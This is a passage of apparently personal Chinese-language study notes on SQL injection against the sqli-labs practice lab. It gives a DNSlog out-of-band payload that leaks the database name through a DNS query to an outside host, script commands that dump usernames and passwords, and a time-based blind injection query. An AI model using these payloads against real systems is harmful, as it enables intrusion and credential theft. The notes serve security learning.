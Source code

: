 3. ```sql
   select load_file(concat("//",(select database()),".sy119q.dnslog.cn/anyfile.txt"))
   ```

4. 注意：不要漏掉中间的 “.”，也不要忘了再最后加一个文件的名字。看到页面打着转转就知道大概率成功了，因为你的文件名是乱填的，它不可能找得到

5. 点击 dnslog 刷新按钮，即可看到目标服务器的请求



load_file() 既可以读取本机文件（看对方有没有放开这个权限），也可以读取互联网上的文件

似乎只能用于windows服务器上

双斜杠可以改成 4 个反斜杠

双反斜杠代表Microsoft Windows通用命名约定（UNC）的文件和目录路径格式利用任何以下扩展存储程序引发DNS地址解析，4 个反斜杠是因为考虑转义因素

需要打开文件读写权限

# 使用脚本 DnslogSqlinj

```shell
python2 dnslogSql.py -u "http://192.168.216.134/sqli-labs-php7/Less-9/?id=1' and ({})--+" --dbs
python2 dnslogSql.py -u "http://192.168.216.134/sqli-labs-php7/Less-9/?id=1' and ({})--+" -D security --tables
python2 dnslogSql.py -u "http://192.168.216.134/sqli-labs-php7/Less-9/?id=1' and ({})--+" -D security -T users --columns
python2 dnslogSql.py -u "http://192.168.216.134/sqli-labs-php7/Less-9/?id=1' and ({})--+" -D security -T users -C username,password --dump
```



## 时间盲注
啥回显都没有，甚至没有真假值的区别，而网站会执行你写的代码，此时可以使用时间盲注

```sql
select if(ascii(substr((select database()),1,1))>100, sleep(0), sleep(3))
```

其中 if 函数：

```sql
if(condition, True, False)
```

条件式为真时执行 True 语句，条件式为假时执行 False 语句，从而达到判断的效果

# post 注入

1. 用 burp suite 抓包查看提交信息

   <img src="C:\Users\A2140\AppData\Roaming\Typora\typora-user-images\image-20240504155324178.png" alt="image-20240504155324178" style="zoom:67%;" />

